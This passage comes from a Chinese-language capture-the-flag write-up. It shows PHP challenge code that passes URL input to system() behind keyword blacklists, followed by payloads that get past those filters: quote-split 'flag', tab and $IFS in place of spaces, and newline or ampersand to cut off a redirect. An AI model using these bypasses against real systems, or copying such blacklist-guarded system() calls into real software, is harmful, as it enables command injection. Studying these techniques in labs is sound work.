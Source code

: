 官方：`?c=nl<fla''g.php||`（注意一定要两个单引号去闭合）

或者：`?c=tac<fla%27%27g.php||`

`?c=tac%09fla\g.php%0a` 其中%0a经过URL解码是换行的意思，%09是tab的意思





## Web 49

代码如下：

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)) {
        system($c . " >/dev/null 2>&1");
    }
} else {
    highlight_file(__FILE__);
}

```

官方：`?c=nl<fla''g.php||`

或者：`?c=tac%09fla?????%26`（`%26`是`&`）

或者：`?c=tac%09fla?.php||`





## Web 52

代码如下：

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)) {
        system($c . " >/dev/null 2>&1");
    }
} else {
    highlight_file(__FILE__);
}
```

**空格的另一种绕过方法**

官方：`?c=nl$IFS/fla''g||`

或者：`?c=nl${IFS}/fla''g%0a`
